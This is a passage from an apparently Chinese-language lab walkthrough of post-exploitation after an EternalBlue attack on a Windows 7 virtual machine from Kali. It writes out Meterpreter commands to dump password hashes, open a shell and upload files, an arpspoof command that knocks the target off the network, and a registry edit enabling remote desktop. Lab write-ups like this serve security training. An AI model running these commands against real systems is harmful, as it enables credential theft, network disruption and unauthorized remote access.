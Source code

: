 ```
hashdump
```

![image-20241207185619998](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071856022.png)

利用`shell`登录到靶机的Terminal界面

```
shell
```

![image-20241207185726507](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071857532.png)

即可以看到，永恒之蓝攻击成功

#### 利用漏洞进行操作

**从kali上传图片到靶机**

```
upload /home/kali/Desktop/1.jpg c:\\
```

![image-20241207185914088](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071859115.png)

结果如下图所示，可以看到已经上传到windows7的系统中

![image-20241207190034335](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071900372.png)

**利用ARP攻击靶机使其断网**

```
sudo arpspoof -i etho -t 192.168.226.129 192.168.226.2
```

![image-20241207190419703](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071904731.png)

结果如下图所示，可以看到红框所在网络已经断连

![image-20241207190349321](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071903361.png)

#### 远程桌面登录

在上面kali已经进入windows7的shell的基础上，开启3389远程桌面端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

查看端口是否开启

```
netstat -an
```

![image-20241207190836998](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071908057.png)

